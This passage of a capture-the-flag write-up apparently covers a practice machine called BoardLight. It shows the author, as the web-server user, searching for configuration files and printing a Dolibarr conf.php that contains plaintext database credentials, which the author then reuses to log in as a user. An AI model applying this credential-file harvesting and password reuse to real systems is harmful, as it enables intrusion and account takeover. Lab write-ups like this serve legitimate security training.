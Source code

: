 # User as larissa

## Reused Creds

So at times like these it's a good idea to look around the sites with login forms as they hold potentially juicy config or database files. I search for a config file within the crm board site to find exactly that.


```bash
www-data@boardlight:~/html/crm.board.htb$ find / -name "conf*" 2>/dev/null

/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

```bash
www-data@boardlight:~/html/crm.board.htb$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
<at /var/www/html/crm.board.htb/htdocs/conf/conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

```
